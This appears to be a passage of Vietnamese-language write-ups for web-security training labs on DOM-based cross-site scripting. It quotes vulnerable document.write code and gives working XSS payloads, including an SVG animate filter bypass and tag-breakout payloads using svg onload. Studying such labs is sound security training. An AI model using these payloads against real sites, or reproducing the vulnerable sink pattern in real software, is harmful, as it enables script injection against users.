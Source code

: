 ```
</svg>
```
Chúng ta có thể sử dụng thẻ animate để định nghĩa thuộc tính mới là href và value của nó là `javascript:alert()` để bỏ qua bộ lọc. 
Payload:
```
"><svg >
  <a width=10 height=10>
    <animate attributeName="href" values="javascript:alert()">
    <text>Click</text>
  </a>
</svg>
```

---
## Lab: DOM XSS in document.write sink using source location.search

``` javascript

function trackSearch(query) {
document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
trackSearch(query);
}
```
Chuỗi tìm kiếm sẽ được được lưu vào biến search và sau đó được gọi sau đó `document.write` sẽ thực hiện việc in ra chuỗi tìm kiếm đó, tức là chúng ta có thể đưa vào một đoạn mã javascript trực tiếp vào trong DOM để thực thi xss
payload:
```
'><svg/onload=alert()>
```

---
## Lab: DOM XSS in document.write sink using source location.search inside a select element

![image](https://user-images.githubusercontent.com/68894302/170884298-cb05e6a9-ad03-47a7-8a25-70f46046b0e6.png)
 
Biến `store`có thể dễ dàng sử đổi tên của store sau đó escape khỏi các tag mở và thực thi `alert()`
![image](https://user-images.githubusercontent.com/68894302/170884574-cd7e6131-c6e7-4909-918a-b8b3ef173137.png)

payload
```
"></select><svg/onload=alert()>
```

---
## Lab: DOM XSS in innerHTML sink using source location.search
